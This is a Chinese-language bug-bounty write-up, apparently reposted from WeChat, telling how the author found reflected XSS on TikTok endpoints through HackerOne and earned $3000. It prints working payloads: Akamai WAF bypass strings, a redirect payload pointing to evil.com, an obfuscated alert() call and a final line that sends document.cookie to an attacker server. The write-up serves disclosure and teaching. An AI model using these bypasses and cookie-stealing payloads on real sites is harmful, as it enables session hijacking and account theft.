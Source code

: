 > **原文链接**: https://mp.weixin.qq.com/s?__biz=MzkwOTE5MDY5NA==&mid=2247506998&idx=1&sn=52801a9414af3059d542caf9da05aa53

#  我如何在 TikTok 漏洞赏金计划中赚到 3000 美元  
haidragon  安全狗的自我修养   2025-07-17 04:10  
  
Hackerone.com 上的 TikTok 漏洞赏金计划  
  
  
那只是一个普通的夜晚。一个朋友邀请我去玩《Valorant》（游戏）——典型的夜间例行活动。但不知何故，我拒绝了。我打开了我的 Burpsuite，开始四处寻找赏金任务。这**真是我做过的最棒的决定。**  
  
因为那天晚上，我**在 TikTok 上发现了三个漏洞**，最终让我总共赚了**3000 美元**。  
# 侦察游戏  
  
我的旅程始于简单的侦察。我曾经
```
urlscan.io
```

扫描过所有与TikTok域名相关的端点。经过一番挖掘，我最终得到了一个**庞大的列表——大约有10,000个URL**。  
  
手动滚动浏览（没错，就是手动），我发现一个端点位于一个看起来像是活动共享功能的路径下。该 URL 附带了几个参数——这立刻激起了我的好奇心。（无法分享完整的端点）  
  
我开始尝试这个
```
region
```

参数。为了测试反射，我添加了这个无害的payload：  
  
?region=id'">  
<  
u  
>  
testest  
</  
u  
>  

```


```

  
你猜怎么着？  
  
**它反映得很干净。没有经过任何清理。没有经过任何编码。**  
# 进入 WAF — Akamai  
  
我心想：“好吧……这可能很有趣。” 所以我用一个经典的有效载荷进行了测试：  
  
">  
<  
img  
src  
=  
x  
onerror  
=  
alert(document.domain)  
>  
  
**被Akamai**屏蔽——TikTok 的 WAF。而且不是普通的 WAF……**难度很高**。  
  
游戏开始。  
# 绕过尝试  
  
我开始深入研究**Akamai WAF 绕过技术**。我发现了一些关于字符串混淆、大小写敏感和标签规避的精彩文章。  
  
一些常见的尝试包括：  
  
</  
ScRiPt  
>  
      → blocked    
</  
SCRIPT  
>  
      → blocked    
</  
ScRpt  
>  
       → not blocked, but also invalid    
</Script+xxx>  → bypassed briefly, but eventually got filtered again  
  
我知道我需要一些更有创意的东西。  
# 有效载荷的演变  
  
经过多次失败的尝试，我想到了这个**看起来很奇怪但有效的**绕过字符串：  
  
}<x>xxx<!--><!>+>+></Script+xxx></script%20x></x><x>xxx<!--><!>+>+>  
  
这样就绕过了过滤——**但是 alert()、confirm() 和 prompt()**在运行时都被阻止了。因此，我选择谨慎行事，先报告了该漏洞，并使用了**开放的重定向有效载荷**，以避免潜在的重复提交。  
  
完整的有效载荷有点疯狂，看起来像这样：  
  
}<x>xxx<!--><!>+>+></Script+xxx><Script+xxx>Object.prototype.BOOMR = 1;  
Object.prototype.url = 'https://portswigger-labs.net/xss/xss.js';  
location.replace('https://evil.com');</script%20x></x><x>xxx<!--><!>+>+>  
  
两天后，我收到了 HackerOne Triage 的回复：  
  
  
  
# 构造一个真正的XSS  
  
我又回到了绘图板上。由于直接访问
```
alert()
```

被屏蔽了，我尝试**使用混淆访问来破解它**：  
  
window  
/*xxx*/  
 ;  
  
全部有效载荷：  
  
<x>xxx<!--><!>+>+></Script+xxx><script%20x>window/*xxx*/['al'%2b'ert'](1);//</script%20x></x><x>xxx<!--><!>+>+>  
  
成功了。我更新了 PoC 并再次发送了它。  
  
内部分类小组回复：  
  
  
  
  
已接受的挑战。  
  
我继续使用这个最终的有效载荷来窃取cookie：  

```

```

window/*xxx*/['loca'+'tion'] ='http://<your-server>?cookie='+document/*xxx*/['coo'+'kie'];  
  
  
  
轰！确认有效XSS攻击。同一天，**1000美元的悬赏金**落入。  
  
  
  
# 额外奖励：另外两个 Bug  
  
这次胜利之后，我继续深入研究同一路径家族中的更多端点。最终，我又发现了**两个具有相同漏洞的端点**。  
  
同样的技术。同样的XSS。同样的悬赏：**每人1000美元。**  
# 💸 最终结果  
- 第一个漏洞：1000美元  
- 第二个漏洞：1000 美元  
- 第三个漏洞：1000美元  
总计**：3,000 美元**  
  
那天晚上我甚至不需要玩 Valorant。  
  
  
  
# 对黑客同仁的最后思考  
  
漏洞赏金不仅仅关乎技巧——它关乎耐心、侦察、创造力和时机。有时候，**拒绝游戏邀请就能让你多赚几千美元**😂  
  
致所有漏洞猎人：**永远不要低估反射参数**。最简单的漏洞也能带来意想不到的回报——前提是，你知道如何正确构建你的payload。  
  
继续学习，注意安全。  
  
  
- 公众号:安全狗的自我修养  
  
- vx:2207344074  
  
- http://  
gitee.com/haidragon  
  
- http://  
github.com/haidragon  
  
- bilibili:haidragonx  
  
- ![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/vBZcZNVQERHYgfyicoHWcBVxH85UOBNaPMJPjIWnCTP3EjrhOXhJsryIkR34mCwqetPF7aRmbhnxBbiaicS0rwu6w/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
-   
- ![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/vBZcZNVQERHYgfyicoHWcBVxH85UOBNaPZeRlpCaIfwnM0IM4vnVugkAyDFJlhe1Rkalbz0a282U9iaVU12iaEiahw/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
****  
  
  
